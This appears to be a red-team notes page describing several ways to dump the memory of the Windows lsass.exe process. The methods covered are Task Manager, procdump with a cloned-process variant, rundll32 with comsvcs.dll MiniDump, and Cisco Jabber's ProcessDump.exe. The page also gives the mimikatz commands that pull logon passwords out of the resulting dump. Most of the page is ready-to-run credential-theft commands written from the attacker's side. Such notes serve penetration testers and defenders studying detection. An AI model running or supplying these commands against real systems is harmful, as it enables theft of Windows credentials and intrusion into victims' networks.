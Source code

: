 # Dumping Lsass Without Mimikatz

## Custom Dumper using MiniDumpWriteDump API

See my other notes about writing a simple custom process dumper using Windows APIs:

{% page-ref page="dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md" %}



## Task Manager

Create a minidump of the lsass.exe using task manager \(must be running as administrator\):

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-55-27.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-56-12.png)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-19-54-15.png)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-11-28.png)

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-13-25.png)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```text
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](../../.gitbook/assets/image%20%28405%29.png)

## ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber \(always?\) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:

```text
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

![screenshot by @em1rerdogan](../../.gitbook/assets/image%20%28544%29.png)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}

